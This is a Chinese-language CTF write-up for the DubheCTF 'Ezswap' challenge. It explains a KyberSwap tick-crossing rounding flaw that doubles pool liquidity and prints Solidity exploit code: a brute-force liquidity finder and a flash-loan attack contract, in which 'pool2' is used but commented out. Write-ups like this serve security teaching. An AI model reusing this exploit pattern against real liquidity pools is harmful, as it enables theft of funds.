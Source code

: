 # Ezswap-DubheCTF

Swap is a kind of magical magic, and I am deeply impressed.

>  题目思路来源于一个真实的针对kyberswap合约的黑客攻击，具体参考
>
>  https://mp.weixin.qq.com/s/PkUqaJKlJFHsvRot1ij4qg?ref=www.ctfiot.com

整体的代码并没有更改多少，一是把合约的flash函数锁去掉了，主要的一点改动是在漏洞点这里做了一点修复，限制了无法从上界去利用这个漏洞使流动性翻倍，需要攻击者在流动性区间的下界通过此漏洞利用进行流动性翻倍。

![image-20240318145314173](/Users/kkfine/Library/Application Support/typora-user-images/image-20240318145314173.png)

在设计这个题的时候，感觉并没有做好，导致出了非预期。弄了两个池子，一个池子用来被攻击的，一个池子用来闪电贷token的，用户本身只有非常少的token，本意是觉着这样更能模拟真实的场景吧。所以第一个池子的闪电贷其实不应该开放给用户，导致了非预期，直接闪电贷第一个池子就能满足check了。加个bool变量在初始化池子的时候把第一个池子的flash锁了就好了，这非预期有点难受的。

## 漏洞原理

先说说kyerbswap 的一些特点：

- 一是由于kyberswap本身是二开的uniswap v3合约，所以大多数的逻辑都是相似的，但是kyberswap 算是众多fork univ3合约中改动较大的一版，将bitmap索引tick改为了双向链表索引，这样更加的节省gas以及方便查找。

- 二是kyberswap新增了手续费复投的概念，在每次swap的时候都会将用户的手续费复投到池子中，并参与swap过程。在数学原理上，kyber通过一系列数学魔法，把本身的swap兑换曲线和reinvest的概念合并到了一条新的曲线上。

![image-20240319111727497](/Users/kkfine/Library/Application Support/typora-user-images/image-20240319111727497.png)

   一个简单的swap计算过程。

![image-20240319111850867](/Users/kkfine/Library/Application Support/typora-user-images/image-20240319111850867.png)



所以漏洞原理就出在复投之后的tick的计算上，在利用computeSwapStep计算出在这个区间的流动性所支持兑换的token数量后，会进行判断是否跨tick了，如果没有就直接计算currentTick，结束本次循环。

![image-20240319112102773](/Users/kkfine/Library/Application Support/typora-user-images/image-20240319112102773.png)

而在computeSwapStep存在着两次计算，第一次是计算当前区间流动性可以被使用的token数量，第二次是考虑了加入再投资流动性之后计算出来的价格。

![image-20240319112247833](/Users/kkfine/Library/Application Support/typora-user-images/image-20240319112247833.png)

所以在某种精确计算的情况下，可以找出一个精准的区间和流动性来使calcReachAmount计算出来的数量大于我们要兑换的数量，这样可以让系统认为我们并没有cross tick。但在最终调用calcReachAmount计算出最终价格的时候却已经是下一个区间的价格，从而在执行`swapData.currentTick = TickMath.getTickAtSqrtRatio(swapData.sqrtP);`的时候currentTick也成了区间上界tick或者下界tick。而系统认为我们并没有cross tick但实际上已经cross tick所以流动性本该减去却没有改变，当我们再反向swap时候流动性又会增加，导致流动性翻倍。



# 题解

个人觉着题目的难度可能在于代码量较大，如果之前没看过univ3可能要从头开始学，需要花较久的时间，导致好像也没太多人看这题。关于这个漏洞的exp其实在网上也能有（https://github.com/paco0x/kyber-exploit-example），但并不能直接适用于我们这题，原因在于最上面的一个小改动。

首先找到这个精确的流动性和swap兑换的数量。

```solidity
 // brute force to find a valid liquidity number that will result in end price above the next price & end tick == next tick
    function findExploitableLiquidity2(uint128 liquidityStart, uint160 currentSqrtP, uint160 targetSqrtP)
        public
        view
        returns (uint128, uint256)
    {
        uint128 liquidity = liquidityStart;
        uint256 absDelta = 0;
        uint256 count = 0;
        while (true) {
            liquidity++;
            count++;

            // run the maths in SwamMath.computeSwapStep() to find a liquidity number
            // that satisfies the condition end_price > next_price when using (usedAmount - 1) to swap.
            int256 usedAmount = SwapMath.calcReachAmount(liquidity, currentSqrtP, targetSqrtP, 10, true, true);
            absDelta = uint256(usedAmount) - 1;
            uint256 deltaL = SwapMath.estimateIncrementalLiquidity(absDelta, liquidity, currentSqrtP, 10, true, true);
            uint160 nextSqrtP = uint160(SwapMath.calcFinalPrice(absDelta, liquidity, deltaL, currentSqrtP, true, true));

            if (nextSqrtP < targetSqrtP) {
                // console2.log("liquidity", liquidity);
                break;
            }
            if (count == 10_000_000) {
                revert("unable to find a valid liquidity number");
            }
        }

        return (liquidity, absDelta);
    }
```

然后利用即可，用同样数量的token1获取更多的token0

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.9;

import "../contracts/openzeppelin/contracts/token/ERC20/ERC20.sol";

import "../contracts/Pool.sol";
import "../contracts/Factory.sol";
import "../contracts/oracle/PoolOracle.sol";
import "../contracts/libraries/TickMath.sol";

import "../contracts/libraries/SwapMath.sol";
import "../contracts/periphery/libraries/LiquidityMath.sol";

contract Token is ERC20 {
    constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) {}

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }
}
interface Setup {
    function addManager(address manager) external;
    function run() external;
    function airdroop() external;
    function check() external;
}
contract KyberAttack  {

    Pool pool = Pool(0xb51bBD304ADCf42b8882720Af184197600b9d9fF);
//    Pool pool2  = Pool(0x54A8A576907BA8291a41e21E80a3F357D8f74133);
    Token token0 =   Token(address(pool.token0()));
    Setup setup = Setup(0x0DCd1Bf9A1b36cE34237eEaFef220932846BCD82);
    Token token1 = Token(address(pool.token1()));


    int24 lower = -111311;
    int24 upper = lower + 100;

    uint128 rangeLiquidity;


    function mintCallback(uint256 qty0, uint256 qty1, bytes calldata data) external {
        if (qty0 > 0) {
            token0.transfer(msg.sender, qty0);
        }
        if (qty1 > 0) {
            token1.transfer(msg.sender, qty1);
        }
    }

    function swapCallback(int256 qty0, int256 qty1, bytes calldata data) external {

        if (qty0 > 0) {
            token0.transfer(msg.sender, uint256(qty0));
        }
        if (qty1 > 0) {
            token1.transfer(msg.sender, uint256(qty1));
        }
    }


    function flashCallback(uint256 feeQty0, uint256 feeQty1, bytes calldata data) external {

        uint160 lowerSqrtP = TickMath.getSqrtRatioAtTick(lower);
        uint160 upperSqrtP = TickMath.getSqrtRatioAtTick(upper);

         pool.swap(address(this), type(int256).max, true, TickMath.getSqrtRatioAtTick(upper), "");
        // calc the rough amount of liquidity with amount of 100 ether
        uint128 initLiquidity = LiquidityMath.getLiquidityFromQty0(lowerSqrtP, upperSqrtP, 100 ether);

        uint128  adjustedLiquidity = 76766215640030182295;
        uint256 exploitableToken1Amount =  100005025313878185766;

         (uint128 L, uint128 reinvestL,) = pool.getLiquidityState();
        rangeLiquidity = adjustedLiquidity - reinvestL - L;
        pool.mint(address(this), lower, upper, [TickMath.MIN_TICK, lower], rangeLiquidity, "");

        pool.swap(address(this), int256(exploitableToken1Amount), true, TickMath.MIN_SQRT_RATIO + 1, "");

        {
            pool.swap(address(this), type(int256).min, true, TickMath.getSqrtRatioAtTick(lower), "");
            (uint128 newLiquidity,,) = pool.getLiquidityState();

        }

        (int256 deltaQty0, int256 deltaQty1) = pool.swap(address(this), 10 ether, false, TickMath.getSqrtRatioAtTick(upper+13713), "");

        pool.burn(lower, upper, rangeLiquidity);

       token0.transfer(address(pool2), 101 ether);
       token1.transfer(address(pool2), 0.3 ether );

    }


       function run() public {
        setup.addManager(address(this));
        setup.airdroop();
       pool2.flash(address(this),101 ether , 0.3 ether, abi.encodePacked(uint256(101 ether), uint256(0.3 ether)));
        pool.burn(lower, upper, rangeLiquidity);
        setup.check();
    }

}

//[+] pool address 0xe7152513974AD8F6fdac593a441b361Ff774fC90
//[+] pool2 address 0x9d77b2e483D4aA812D3CC2f15Ee6b264b7e93f74
//[+] token0 address 0x0665FbB86a3acECa91Df68388EC4BBE11556DDce
//[+] token1 address 0x56639dB16Ac50A89228026e42a316B30179A5376
//[+] factory address 0xe61FDeDBcb68e8966c869E51eAb9020cFAAdf066

```

